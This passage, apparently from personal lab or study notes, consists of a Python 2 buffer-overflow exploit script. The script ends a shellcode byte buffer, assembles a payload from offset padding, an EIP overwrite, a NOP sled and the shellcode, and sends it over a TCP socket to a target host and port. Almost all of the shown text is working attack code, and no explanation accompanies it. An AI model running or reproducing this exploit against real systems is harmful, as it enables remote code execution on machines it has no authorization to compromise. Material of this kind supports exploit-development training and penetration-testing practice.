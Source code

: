 ```python
buf += b"\x2b\xa8\x46\xcd\x62\x64\x70\xb8\x1c\x29\xb9\x7b\xe1"
buf += b"\xcf\x1c\x0a\x73\x2d\x62\x4f\xdb\xaf\x54\x85\x6b\xcf"
buf += b"\x96\xa5\x2f\xd0\x29\xf1\x5a\xfc\x76\x0b\x13\x73\xe7"
buf += b"\x98\x47\xc6\x65\x55\xbb\xaf\x1b\x37\x61\x8a\x91\xa4"
buf += b"\x36\xd7"

filler = "C" * (crash - (len(offset) + len(EIP) + len(buf) + len(nop)))
payload = cmd + offset + EIP + nop + buf

print "Fuzzing with %s bytes" % len(payload)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(payload)
	s.close()
except:
        print "\nCould not connect!"
```

![Pasted image 20210502183353.png](../../zzz_res/attachments/Pasted_image_20210502183353.png)